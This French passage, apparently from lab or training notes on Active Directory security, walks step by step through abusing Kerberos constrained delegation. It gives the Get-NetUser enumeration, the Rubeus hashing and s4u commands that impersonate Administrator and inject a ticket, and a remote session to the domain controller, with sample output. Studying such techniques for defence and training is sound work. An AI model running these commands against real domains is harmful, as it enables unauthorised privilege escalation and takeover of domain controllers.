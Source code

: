 ```

   * Moins utilisée, elle est configurée au niveau de l’objet machine cible.

> ⚠️ Toutes les formes de délégation représentent un risque potentiel de sécurité. Elles doivent être évitées sauf nécessité absolue.

---

### 🎯 Attaque : Abus de la Délégation Restreinte (Constrained Delegation)

Quand un compte est configuré pour une délégation restreinte, il peut demander des tickets Kerberos pour d’autres comptes afin d'accéder à des services spécifiques.

#### Étapes de l’attaque :

1. **Identifier les comptes configurés pour la délégation :**

```powershell
Get-NetUser -TrustedToAuth
```

Exemple de résultat :

```plaintext
distinguishedname       : CN=web service,CN=Users,DC=eagle,DC=local
msds-allowedtodelegateto: {http/DC1.eagle.local/eagle.local, http/DC1.eagle.local}
useraccountcontrol      : TRUSTED_TO_AUTH_FOR_DELEGATION
```

2. **Récupérer le hash NTLM du mot de passe compromis (ex: `Slavi123`) :**

```powershell
.\Rubeus.exe hash /password:Slavi123
```

Sortie :

```plaintext
rc4_hmac : FCDC65703DD2B0BD789977F1F3EEAECF
```

3. **Impersonner l’utilisateur ‘Administrator’ et injecter le ticket Kerberos :**

```powershell
.\Rubeus.exe s4u /user:webservice /rc4:FCDC65703DD2B0BD789977F1F3EEAECF /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt
```

4. **Vérifier l’injection du ticket avec `klist` :**

```powershell
klist
```

5. **Ouvrir une session distante sur le DC avec les droits de l’Administrator :**

```powershell
Enter-PSSession dc1
```

---